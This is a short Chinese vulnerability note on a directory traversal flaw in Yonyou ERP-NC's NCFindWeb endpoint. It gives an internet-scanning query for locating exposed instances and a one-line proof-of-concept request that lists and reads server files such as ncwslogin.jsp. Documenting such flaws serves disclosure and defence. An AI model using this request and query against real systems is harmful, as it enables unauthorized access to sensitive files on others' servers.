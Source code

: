 # 用友 ERP-NC NCFindWeb 目录遍历漏洞

# 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

```
用友ERP-NC
```

## 网络测绘

```
app="用友-UFIDA-NC"
```

## 漏洞复现

POC为

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![yongyou-8-1](/images/yongyou-8-1.png)

查看 ncwslogin.jsp 文件

![yongyou-8-2](/images/yongyou-8-2.png)

